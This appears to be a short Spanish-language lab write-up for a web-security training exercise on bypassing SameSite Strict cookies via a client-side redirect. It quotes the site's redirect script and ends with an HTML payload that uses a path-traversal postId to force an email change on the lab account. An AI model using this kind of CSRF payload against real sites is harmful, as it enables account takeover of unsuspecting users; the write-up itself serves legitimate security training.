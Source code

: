 ```yaml
---
layout: default
title: 08 - SameSite Strict bypass via client-side redirect
---
```

La cookie de sesión tiene SameSite Strict, por lo que no será enviada en ninguna petición que no sea entre el propio dominio.

```
/resources/js/commentConfirmationRedirect.js
```

```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

Vaya, que al acceder a 
```
https://0a6100ba04b3924186fad99b007500d3.web-security-academy.net/post/comment/confirmation?postId=99
```

Te redirige a 

```
https://0a6100ba04b3924186fad99b007500d3.web-security-academy.net/post/99
```


Exploit :

```html
<script>
window.location='https://0a6100ba04b3924186fad99b007500d3.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3femail%3deeeaaaaaaa%2540test.com%26submit%3d1'
</script>
```
